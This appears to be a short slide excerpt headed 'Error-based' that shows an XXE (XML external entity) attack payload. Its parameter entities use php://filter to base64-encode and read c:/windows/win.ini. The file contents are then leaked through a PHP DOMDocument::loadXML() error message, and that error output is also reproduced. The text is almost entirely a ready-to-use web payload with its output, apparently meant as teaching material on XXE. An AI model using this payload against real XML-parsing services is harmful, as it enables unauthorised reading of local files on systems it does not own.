

# Error-based
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
<!ENTITY % intern "<!ENTITY &#37; trick SYSTEM 'http%payl;://127.0.0.1:81/'>">
DOMDocument::loadXML() [
domdocument.loadxml: Invalid URI: httpOyBmb3IgMTYtYml0IGFwcCBzdXBwb3J0DQpbZm9udHNdDQpbZXh0ZW5zaW9uc10NClttY2kgZXh0ZW5zaW9uc10NCltmaWxlc10NCltNYWlsXQ0KTUFQST0xDQpbUmVzcG9uc2VSZXN1bHRdDQpSZXN1bHRDb2RlPTANCg==://127.0.0.1:81/ in Entity, line: 1 in
Z:\home\localhost\www\xxe.php